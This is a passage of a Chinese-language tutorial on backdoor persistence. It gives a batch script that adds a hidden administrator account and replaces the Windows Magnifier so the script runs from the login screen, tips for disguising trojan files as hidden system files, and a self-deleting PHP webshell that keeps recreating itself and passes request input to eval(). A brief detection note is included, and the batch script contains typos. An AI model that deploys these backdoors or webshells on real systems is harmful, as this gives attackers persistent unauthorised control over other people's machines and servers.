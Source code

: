 ## 0x3 放大镜后门

1. 创建 magnify.bat

```bash
@echo off
net user administrator$ woaijiushi /add
net localgroup administrators hack$ /add
%Windir%\system32\nagnify.exe
exit
```

2.  利用bat2com / com2exe，BatToEXE(图形化工具)等工具把Bat文件转换成exe文件， 

   `bat2com magnify.bat` 　　    # 将magnify.bat转换成magnify.com
   `com2exe magnify.com` 　　  # 将magnify.com转换成magnify.exe

3. 将生成的 magnify.exe 分别替换掉 `C:\WINDOWS\system32\dllcache` 下的 magnify.exe 和`C:\WINDOWS\system32\` 下的 magnify.exe
4. 登陆时通过组合键 Win+U 调用。



**上述方法检查及清除**

	1. 检查`“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image
File Execution Option”`注册表路径中的程序名称

**其它适用于的辅助功能还有:**

​	1. 屏幕键盘：`C:\Windows\System32\osk.exe`

​	2. 放大镜：`C:\Windows\System32\Magnify.exe`

​	3. 旁白：`C:\Windows\System32\Narrator.exe`

​	4. 显示开关：`C:\Windows\System32\DisplaySwitch.exe`

​	5. 应用程序开关：`C:\Windows\System32\AtBroker.exe`

*PS：现在大部分的杀毒软件都会监视注册表项来防御这种恶意行为。*



## 0x4 隐藏属性后门文件

将木马文件属性改为“隐藏” ，伪装成系统文件或数据库文件等，修改时间跟系统文件时间类似。



## 0x5 PHP内存型木马(不死马)

创建 inc_data_config.php 文件

```php
<?php
set_time_limit(0);
ignore_user_abort(1);  
unlink(__FILE__);
while(1){
	file_put_contents('inc_data_config.php','<?php $a=array($_REQUEST["cmd"]=>"3");
	$b=array_keys($a)[0];
	eval($b);?>');
	sleep(5);
}
?>
```
